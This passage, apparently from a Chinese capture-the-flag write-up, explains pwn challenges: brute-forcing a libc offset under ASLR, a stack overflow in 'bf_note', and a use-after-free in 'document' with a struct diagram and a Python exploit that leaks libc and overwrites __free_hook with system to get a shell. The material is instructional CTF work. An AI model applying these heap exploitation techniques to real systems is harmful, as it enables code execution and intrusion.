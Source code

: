 需要注意远程的 chunk 到 libc 偏移量与本地不同，但是不能通过调试得到。此时可以爆破该偏移，又由于 ASLR 不改变低 12 位，只需要步长为 0x1000。

### bf_note

本题关键在于读取 title 长度时对长度进行了限制，但是后面用的时候依然用的是第一次输入的没有经过限制的长度变量。此外，在读入 description 和 postscript 时存在栈溢出。

接下来的步骤对我而言属于新姿势，而 [原 writeup](https://b0ldfrev.top/2020/02/24/BFnote/) 写得挺详细了，建议参考。

### document

本题存在明显的 uaf 漏洞，关键在于通过逆向弄清结构体的结构：
```
     -----------------------
    | prev_size | size=0x21 |
     -----------------------
--  | ptr       | sex=1     |
|    -----------------------
|   | prev_size | size=0x91 |
|    -----------------------
--> | name      | sex=1     |
     -----------------------
    |                       |
    | information           |
    |                       |
     -----------------------
```

那么我们利用的思路就很简单了，首先由于 `information` 所在的 chunk 固定申请 0x80，也就是实际 0x90 大小，我们可以释放掉一块来泄露 libc。然后新申请的 0x20 堆块都会从从释放的这块中切割，这样只需要在 `ptr` 里写入 `free_hook-0x10`，那么在编辑 `information` 时，`free_hook` 就落在了图中的 `information` 位置，我们写上 `system` 即可。

```python
add('/bin/sh\x00') # 0
add() # 1
add() # 2
free(1)
show(1)
ru('\n')
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
free_hook = base+libc.sym['__free_hook']
system = base+libc.sym['system']

add() # 3
add() # 4
edit(1,flat(0,0x21,free_hook-0x10,1)+p64(0)*10)
edit(4,p64(system)+p64(1)+p64(0)*12)
free(0)
```

## VNCTF 2020

第一次见到堆题比栈题解答人数还多的比赛。

